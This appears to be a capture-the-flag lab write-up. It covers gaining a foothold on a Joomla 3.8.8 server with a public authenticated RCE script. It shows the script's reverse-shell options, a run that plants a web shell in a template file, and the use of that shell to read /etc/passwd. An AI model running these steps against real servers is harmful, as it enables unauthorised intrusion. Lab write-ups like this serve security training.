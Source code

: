 From the admin panel, we can see that this server is running `Joomla 3.8.8`. So, we can look for any exploitable vulnerabilities for this version.

## Gaining Foothold

With a couple of google searches, we can find a python script for [Joomla 3.8.8 authenticated RCE](https://github.com/cocomelonc/vulnexipy/blob/master/joomla388_rce.py). We can quickly copy this script and run it from our machine.

*If the script does not work for you and gives you error for `log_colors` modules then you can install that module with `pip install colorlog` and if that does not work for you then remove all the `LogColors.<COLOR>` terms from the script along with the import statement. You can find the cleaned script [here](./clean_rce.py)*

```
$ python3 exploit.py -h                                                                        
usage: exploit.py [-h] -u URL -U USERNAME -P PASSWORD -i IP -p PORT

options:
  -h, --help            show this help message and exit
  -u URL, --url URL     target url
  -U USERNAME, --username USERNAME
                        auth username
  -P PASSWORD, --password PASSWORD
                        auth password
  -i IP, --ip IP        revshell listener ip
  -p PORT, --port PORT  revshell listener port
```

So, we need to pass it the URL, username, password, IP and port.

```
$ python3 exploit.py -u http://10.129.3.181 -U floris -P ************ -i 10.129.3.181 -p 80
victim: http://10.129.3.181...
login with credentials...
parse hidden inputs...
successfully login...
edit /jsstrings.php...
parse hidden inputs...
shell: http://10.129.3.181/templates/beez3/jsstrings.php?hacked=<cmd>
successfully get shell. hacked :)
```

Now, we can run any command from the provided URL. We can test this by printing `/etc/passwd`

![cat_passwd](./.images/cat_passwd.png)

So, the command injection does work. We can try to gain a reverse shell from here.

*I tried a number of payloads from revshells.com but none of them worked.*

At this point as we are not able to get a reverse shell, the best thing to do is utilize what we have. So, we can start our enumeration from this injection itself.
